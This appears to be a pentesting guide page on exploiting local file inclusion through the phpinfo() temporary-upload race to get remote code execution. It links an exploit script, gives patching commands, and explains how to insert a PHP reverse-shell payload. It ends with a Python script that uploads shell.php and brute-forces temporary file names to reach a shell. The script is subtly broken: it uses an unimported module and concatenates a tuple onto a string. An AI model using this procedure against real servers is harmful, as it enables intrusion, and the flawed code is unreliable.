 ### Via phpinfo\(\) \(file\_uploads = on\)

To exploit this vulnerability you need: **A LFI vulnerability, a page where phpinfo\(\) is displayed, "file\_uploads = on" and the server has to be able to write in the "/tmp" directory.**

[https://raw.githubusercontent.com/swisskyrepo/PayloadsAllTheThings/master/File%20Inclusion/phpinfolfi.py](https://raw.githubusercontent.com/swisskyrepo/PayloadsAllTheThings/master/File%20Inclusion/phpinfolfi.py)

**Turotial HTB**: [https://www.youtube.com/watch?v=rs4zEwONzzk&t=600s](https://www.youtube.com/watch?v=rs4zEwONzzk&t=600s)

You need to fix the exploit \(change  **=&gt;** for **=&gt;**\). To do so you can do:

```text
sed -i 's/\[tmp_name\] \=>/\[tmp_name\] =\&gt/g' phpinfolfi.py
```

You have to change also the **payload** at the beginning of the exploit \(for a php-rev-shell for example\), the **REQ1** \(this should point to the phpinfo page and should have the padding included, i.e.: _REQ1="""POST /install.php?mode=phpinfo&a="""+padding+""" HTTP/1.1\r_\), and **LFIREQ** \(this should point to the LFI vulnerability, i.e.: _LFIREQ="""GET /info?page=%s%%00 HTTP/1.1\r   --_  Check the double "%" when exploiting null char\)

{% file src="../.gitbook/assets/lfi-with-phpinfo-assistance.pdf" %}

#### Theory 

If uploads are allowed in PHP and you try to upload a file, this files is stored in a temporal directory until the server has finished processing the request, then this temporary files is deleted.

Then, if have found a LFI vulnerability in the web server you can try to guess the name of the temporary file created and exploit a RCE accessing the temporary file before it is deleted.

In **Windows** the files are usually stored in  **C:\Windows\temp\php&lt;&lt;**

In **linux** the name of the file use to be **random** and located in **/tmp**. As the name is random, it is needed to **extract from somewhere the name of the temporal file** and access it before it is deleted. This can be done reading the value of the **variable $\_FILES** inside the content of the function "**phpconfig\(\)**".

**phpinfo\(\)**

**PHP** uses a buffer of **4096B** and when it is **full**, it is **send to the client**. Then the client can **send** **a lot of big requests** \(using big headers\) **uploading a php** reverse **shell**, wait for the **first part of the phpinfo\(\) to be returned** \(where the name of the temporary file is\) and try to **access the temp file** before the php server deletes the file exploiting a LFI vulnerability.

**Python script to try to bruteforce the name \(if length = 6\)**

```python
import itertools
import requests
import sys

print('[+] Trying to win the race')
f = {'file': open('shell.php', 'rb')}
for _ in range(4096 * 4096):
    requests.post('http://target.com/index.php?c=index.php', f)


print('[+] Bruteforcing the inclusion')
for fname in itertools.combinations(string.ascii_letters + string.digits, 6):
    url = 'http://target.com/index.php?c=/tmp/php' + fname
    r = requests.get(url)
    if 'load average' in r.text:  # <?php echo system('uptime');
        print('[+] We have got a shell: ' + url)
        sys.exit(0)

```
